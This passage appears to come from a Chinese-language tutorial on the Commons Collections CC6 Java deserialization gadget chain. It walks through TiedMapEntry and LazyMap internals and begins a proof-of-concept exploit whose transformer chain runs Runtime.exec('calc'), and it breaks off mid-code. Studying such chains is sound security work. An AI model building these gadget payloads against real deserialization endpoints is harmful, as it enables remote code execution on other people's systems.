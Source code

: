 然后我们在 TiedMapEntry 中找到了 hashCode 方法，然后调用 getValue() 方法，然后再通过 map 调用 LazyMap 中的 get 方法

```plain
public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```

```plain
private final Map map;
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
public Object getValue() {
        return map.get(key);
}
```

所以这里我们将 TiedMapEntry 实例化以后，传入对应的 map 值为实例化以后的 LazyMap，然后再通过 Hashmap 中的 put 方法将 TiedMapEntry 传入。

### EXP 问题：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);



        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
```